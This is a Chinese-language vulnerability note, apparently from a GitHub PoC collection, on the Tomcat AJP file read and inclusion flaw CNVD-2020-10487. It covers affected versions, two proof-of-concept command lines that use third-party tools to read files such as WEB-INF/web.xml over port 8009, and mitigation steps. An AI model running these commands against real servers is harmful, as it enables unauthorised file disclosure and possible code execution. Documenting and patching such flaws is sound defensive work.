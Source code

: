 # Tomcat被曝出文件包含漏洞或导致RCE  

2020.02.21-CNVD-2020-10487-Tomcat-Ajp-lfi  
## 漏洞描述  
Apache Tomcat是由Apache软件基金会属下Jakarta项目开发的Servlet容器.默认情况下,Apache Tomcat会开启AJP连接器,方便与其他Web服务器通过AJP协议进行交互.但Apache Tomcat在AJP协议的实现上存在漏洞,导致攻击者可以通过发送恶意的AJP请求,可以读取或者包含Web应用根目录下的任意文件,如果配合文件上传任意格式文件，将可能导致任意代码执行(RCE).该漏洞利用AJP服务端口实现攻击,未开启AJP服务对外不受漏洞影响（tomcat默认将AJP服务开启并绑定至0.0.0.0/0）  
## 影响范围  
Apache Tomcat = 6  
7 <= Apache Tomcat < 7.0.100  
8 <= Apache Tomcat < 8.5.51  
9 <= Apache Tomcat < 9.0.31  
  
## poc1  
1.参考链接（https://github.com/0nise/CVE-2020-1938）  
任意文件读取  
`java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 file /index.jsp`  
文件包含  
```java -jar 1.jar com.threedr3am.bug.tomcat.ajp.FileRead 127.0.0.1 8009 jsp /index.jsp```  
截图如下  
![漏洞截图](https://github.com/bmjoker/poc/blob/master/Tomcat/1.png)    
  
## poc2  
2.参考链接（https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi）  
任意文件读取
```py -2 CNVD-2020-10487-Tomcat-Ajp-lfi.py 127.0.0.1 -p 8009 -f WEB-INF/web.xml```  
![漏洞截图](https://github.com/bmjoker/poc/blob/master/Tomcat/2.png)  
# 漏洞修复：  
* 临时禁用AJP协议端口，在conf/server.xm l配置文件中注释掉```<Connector port="8009" protocol="AJP/1.3"redirectPort="8443" />```   
* 配置ajp配置中的secretRequired跟secret属性来限制认证  
* 官方下载最新版下载地址：  
https://tomcat.apache.org/download-70.cgi  
https://tomcat.apache.org/download-80.cgi  
https://tomcat.apache.org/download-90.cgi  
https://github.com/apache/tomcat/releases  
# Reference  
https://github.com/threedr3am/learnjavabug  
https://www.cnvd.org.cn/flaw/show/CNVD-2020-10487  
https://mp.weixin.qq.com/s/GzqLkwlIQi_i3AVIXn59FQ  
https://mp.weixin.qq.com/s/GMAR-KqcKPZyLe_D_WBdXA  
https://github.com/threedr3am/learnjavabug/blob/1f601a919605704e8e67b89213f233b82fa537c7/tomcat/ajp-bug/src/main/java/com/threedr3am/bug/tomcat/ajp/FileRead.java  
https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/blob/8bd38f4cf22331ecf4e48096a78c5931509c26be/CNVD-2020-10487-Tomcat-Ajp-lfi.py

